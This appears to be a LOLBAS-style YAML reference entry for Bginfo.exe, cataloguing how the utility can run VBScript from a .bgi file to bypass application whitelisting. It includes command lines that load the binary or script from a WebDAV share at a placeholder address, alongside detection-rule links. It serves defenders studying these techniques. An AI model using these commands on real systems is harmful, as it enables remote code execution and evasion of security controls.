 ```yaml
---
Name: Bginfo.exe
Description: Background Information Utility included with SysInternals Suite
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: Execute
    Privileges: User
    MitreID: T1218
    Tags:
      - Execute: WSH
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
      - Execute: Remote
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
      - Execute: Remote
Full_Path:
  - Path: no default
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_bginfo.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

